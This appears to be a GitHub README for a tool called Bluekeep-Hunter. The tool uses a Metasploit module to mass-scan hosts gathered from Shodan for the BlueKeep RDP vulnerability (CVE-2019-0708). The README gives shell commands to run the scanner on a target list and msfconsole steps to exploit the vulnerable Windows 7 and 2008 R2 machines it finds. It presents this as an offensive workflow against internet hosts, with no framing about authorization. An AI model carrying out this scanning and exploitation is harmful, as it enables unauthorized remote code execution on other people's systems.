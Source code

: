 # Bluekeep-Hunter
CVE-2019-0708

This uses metasploit module in order to scan and check if CVE-2019-0708 exists or not.
The objective of this exploit is to mass hunt for Bluekeep vulnerabilities. This can be done via shodan https://www.shodan.io/search?query=vuln%3ACVE-2019-0708
To obtain the list in linux one can use shodan search vuln:CVE-2019-0708

Install and Usage:

To install clone this repository.

cd Bluekeep-Hunter

chmod +x bluekeephunter.sh

./bluekeephunter.sh targets.txt

Additional: To view usage ./blukeephunter.sh -h

This will scan and give you the vulnerable targets. To exploit:
 Start **msfconsole**
 use exploit/rdp/cve_2019_0708_bluekeep_rce
 set RHOSTS to target hosts (x64 Windows 7 or 2008 R2)
 set PAYLOAD and associated options as desired
 set TARGET to a more specific target based on your environment
 run
 
 **DEMONSTRATION:**
 
 ![FINALDEMOBLUE](https://user-images.githubusercontent.com/48627542/190843346-8a6e5340-e9d6-403c-ace0-337890f4ec05.gif)
